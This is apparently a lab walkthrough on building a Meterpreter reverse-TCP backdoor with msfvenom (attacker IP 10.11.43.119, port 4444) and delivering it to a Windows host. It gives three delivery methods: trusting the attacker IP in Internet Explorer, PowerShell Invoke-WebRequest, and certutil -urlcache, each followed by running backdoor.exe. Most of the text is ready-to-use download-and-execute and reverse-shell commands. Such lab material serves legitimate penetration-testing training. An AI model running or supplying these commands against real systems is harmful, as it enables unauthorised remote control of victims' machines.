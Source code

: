 

Create a Metasploit backdoor using msfvenom. To create the backdoor use the below syntax:
```bash

msfvenom -p windows/meterpreter/reverse_tcp <LHOST> <LPORT> -f exe > backdoor.exe 

msfvenom -p windows/meterpreter/reverse_tcp 10.11.43.119 4444 -f exe > backdoor.exe

where LHOST is your IP and LPORT is he port Metasploit will listen for connections.
```


Create a Metasploit listener.



Using python create a webserver (python -m SimpleHTTPServer 80) and deliver (download) the backdoor to the target system you previously logged in.



Delivery method I

But first, go to Internet Explorer settings and choose "Internet Options".



Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.





After adding your IP to the trusted websites you can close that tab, and then click OK.

Now, you should be able to download your backdoor.



By pressing on the "Run" button the backdoor will be executed by the system and a connection to Metasploit will be created.



Delivery method II

Another delivery method would be using Powershell. Open a Powershell window and download the backdoor using the following command: Invoke-WebRequest http://10.x.x.x/backdoor.exe

Invoke-WebRequest http://10.11.43.119/backdoor.exe -Outfile backdoor.exe

To execute the backdoor type .\backdoor.exe﻿

Delivery method III

You can use certutil to download the backdoor. You can use certutil from both windows command line and Powershell commandline.
The command to download the file is: certutil -urlcache -split -f http://10.x.x.x/backdoor.exe

certutil -urlcache -split -f http://10.11.43.119/backdoor.exe

Execution of the backdoor is done in the same way as the one at method II, by typing .\backdoor.exe



This is a low privileged user account with no administrative privileges.
